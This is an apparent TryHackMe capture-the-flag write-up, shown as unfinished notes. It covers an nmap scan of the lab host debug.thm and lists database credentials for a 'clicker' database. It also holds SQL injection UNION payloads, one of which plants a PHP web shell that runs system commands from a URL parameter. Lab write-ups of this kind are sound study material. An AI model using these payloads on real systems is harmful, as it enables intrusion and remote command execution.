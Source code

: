 # #1 Introduction
<img width="650" alt="image" src="https://github.com/Mate0r/tryhackme.com/assets/94843357/01ce8d44-bffa-4cc1-8286-d1565202ffaa">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx debug.thm
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- debug.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)

$db_server="localhost";
$db_username="clicker_db_user";
$db_password="clicker_db_password";
$db_name="clicker";


1 UNION SELECT REPLACE(nickname, 'mateor', '<?php echo system($_GET[0]); ?>'), clicks, level FROM players

9999999999999999999 UNION SELECT '<?php phpinfo(); ?>', 2, 3 from players
999999999999999999
extension: php
